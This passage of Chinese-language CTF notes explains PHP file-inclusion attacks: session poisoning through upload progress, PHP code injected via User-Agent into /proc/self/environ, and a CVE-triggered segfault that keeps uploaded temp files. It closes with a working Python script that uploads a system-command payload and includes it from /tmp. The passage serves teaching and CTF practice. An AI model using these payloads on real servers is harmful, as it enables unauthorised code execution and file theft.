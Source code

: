 Session文件内容有两种记录格式：php、php_serialize，通过修改`php.ini`文件中`session.serialize_handler`字段来进行设置。

**以php格式记录时**，文件内容中以`|`来进行分割

**以php_serialize格式记录时**，将会话内容以序列化形式存储

如果保存的session文件中字符串可控，那么就可以构造恶意的字符串触发文件包含。

##### 自己构造Session

有的网站可能不提供用户会话记录，但是默认的配置可以让我们自己构造出一个Session文件。相关的选项如下：

- `session.use_strict_mode = 0`，允许用户自定义Session_ID，也就是说可以通过在Cookie中设置`PHPSESSID=xxx`将session文件名定义为`sess_xxx`
- `session.upload_progress.enabled = on`，PHP可以在每个文件上传时监视上传进度。
- `session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"`，当一个上传在处理中，同时POST一个与INI中设置的`session.upload_progress.name`同名变量时，上传进度可以在`$_SESSION`中获得。 当PHP检测到这种POST请求时，它会在`$_SESSION`中添加一组数据, 索引是`session.upload_progress.prefix`与 `session.upload_progress.name`连接在一起的值。

##### 利用思路

1. 上传一个文件

2. 上传时设置一个自定义`PHPSESSID`cookie

3. POST `PHP_SESSION_UPLOAD_PROGRESS`恶意字段：`"PHP_SESSION_UPLOAD_PROGRESS":'<?php phpinfo();?>'`

   这样就会在Session目录下生成一个包含恶意代码的session文件。

session竞争的脚本在另一个文件夹

#### 包含环境变量

**CGI利用条件**：

`1、php以cgi方式运行，这样environ才会保存UA头。`

`2、environ文件存储位置已知，且environ文件可读。`

**利用姿势**：proc/self/environ中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它，即可。

#### CVE-2018-14884

CVE-2018-14884会造成php7出现段错误，从而导致垃圾回收机制失效，POST的文件会保留在系统缓存目录下而不会被清除。

> 影响版本：
>
> PHP Group PHP 7.0.*，<7.0.27
> PHP Group PHP 7.1.*，<7.1.13
> PHP Group PHP 7.2.*，<7.2.1

windows 临时文件：`C:\windows\php<随机字符>.tmp`

linux临时文件：`/tmp/php<随机字符>`

- 漏洞验证`include.php?file=php://filter/string.strip_tags/resource=index.php`返回500错误

- post恶意字符串

```python
#author:yu22x
import requests 
import re 
url = "http://e34a803b-ce00-4e1e-b585-9bda0198fe37.challenge.ctf.show/"
file={
 'file':'<?php system("cat /*");?>'
}
requests.post(url+'?file=php://filter/string.strip_tags/resource=/etc/passwd',files=file)
r=requests.get(url)
#print(r.text)
tmp=re.findall('=> (php.*?)\\n',r.text,re.S)[-1]
r=requests.get(url+'?file=/tmp/'+tmp)
print(r.text)
```